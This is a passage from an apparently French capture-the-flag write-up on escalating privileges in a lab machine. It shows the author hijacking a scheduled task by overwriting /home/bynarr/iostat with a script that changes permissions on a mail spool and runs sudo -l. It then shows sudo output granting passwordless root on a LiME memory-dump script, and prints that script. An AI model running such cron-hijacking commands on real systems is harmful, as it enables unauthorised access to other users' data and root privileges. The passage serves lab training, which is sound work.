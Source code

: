 ```plain
proc on /proc type proc (rw)
sysfs on /sys type sysfs (rw)
devpts on /dev/pts type devpts (rw,gid=5,mode=620)
tmpfs on /dev/shm type tmpfs (rw)
/dev/sdb1 on /mnt type vfat (rw,uid=501,gid=502)
none on /proc/sys/fs/binfmt_misc type binfmt_misc (rw)
```

Bingo ! Nos commandes sont bien exécutées en tant que *bynarr* via un mécanisme de tache planifiée.  

Voyons si on peut aller plus loin :  

```plain
$ echo "#!/bin/bash" > /tmp/attack
$ echo "chmod o+r /var/spool/mail/bynarr" >> /tmp/attack
$ echo "sudo -l" >> /tmp/attack
$ cp /tmp/attack /home/bynarr/iostat
```

Une nouvelle piste s'ouvre à nous...  

```plain
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime
```

On est autorisés à lancer le script */home/bynarr/lime* avec les droits de l'utilisateur root.  

Evidemment ce script n'est pas écrasable (faut pas rêver).  

Il s'avère que [LiME](http://d4n3ws.polux-hosting.com/2012/04/20/lime-un-lkm-pour-dumper-la-ram-sous-linux/) est un module kernel permettant de dumper la mémoire vive.  

Le script a le contenu suivant :  

```bash
#!/bin/bash
echo """
==========================
Linux Memory Extractorator
==========================
"
echo "LKM, add or remove?"
echo -en "> "

read -e input

if [ $input == "add" ]; then

        /sbin/insmod /home/bynarr/lime.ko "path=/tmp/ram format=raw"

elif [ $input == "remove" ]; then

        /sbin/rmmod lime

else

        echo "Invalid input, burn in the fires of Netu!"

```